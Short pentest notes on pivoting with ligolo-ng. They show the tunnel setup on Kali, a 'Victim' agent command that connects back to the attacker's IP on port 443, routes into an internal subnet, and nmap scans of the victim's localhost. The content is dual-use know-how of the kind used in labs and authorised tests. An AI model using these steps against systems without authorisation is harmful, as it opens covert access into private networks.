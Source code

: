 # ligolo-ng
https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16
Access localhost addresses of host https://docs.ligolo.ng/Localhost/ (use address 240.0.0.1/32)

## Prerequisites
Listo of agents and proxy binaries
```bash
sudo apt install ligolo-ng  
/usr/share/ligolo-ng
```
```bash
sudo ip tuntap add user kali mode tun ligolo
```
```bash
sudo ip link set ligolo up
```
## Use
1. Kali
    ```bash
    ./proxy -selfcert -laddr 0.0.0.0:443
    ```
1. Victim 
    ```bash
    .\ligolo-agent -ignore-cert -retry -connect <Kali_IP>:443 
    ```
    ```bash
    .\agent.exe -ignore-cert -retry -connect 192.168.49.91:443 
    ```
2. Kali
    ```bash
    ligolo-ng>> session # select session
    ligolo-ng>> start
    ```
    ```bash
    sudo ip route add 10.10.194.0/24 dev ligolo
    ```
# Access to agent's local ports (127.0.0.1)
https://docs.ligolo.ng/Localhost/
there's a "magic" CIDR hardcoded in Ligolo-ng: _240.0.0.0/4_ (This is an unused IPv4 subnet)
```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
$ nmap 240.0.0.1 -sV
```
# Caveats

Because the _agent_ is running without privileges, it's not possible to forward raw packets. When you perform a NMAP SYN-SCAN, a TCP connect() is performed on the agent.

When using _nmap_, you should use `--unprivileged` or `-PE` to avoid false positives.
```bash
nmap -PE ...
```